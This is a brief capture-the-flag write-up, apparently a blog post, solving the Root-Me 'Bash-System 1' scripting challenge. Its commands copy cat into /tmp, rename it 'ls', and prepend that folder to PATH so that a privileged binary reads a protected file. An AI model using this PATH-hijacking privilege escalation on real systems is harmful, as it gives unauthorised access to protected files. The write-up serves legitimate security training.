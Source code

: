 ```yaml
---
title: Bash-System 1
layout: post 
date:   2022-04-26 09:08:06
permalink: /:categories/:title
categories: writeups root-me.scripting
---
```


We need to copy cat into /tmp, then change the name to "ls" and change the path to that folder.
Now the script will read it as cat.
```bash
> mkdir /tmp/isntma
> cp /bin/cat /tmp/isntma
> mv /tmp/isntma/cat /tmp/isntma/ls
> export PATH=/tmp/isntma:$PATH
> ./ch11
```
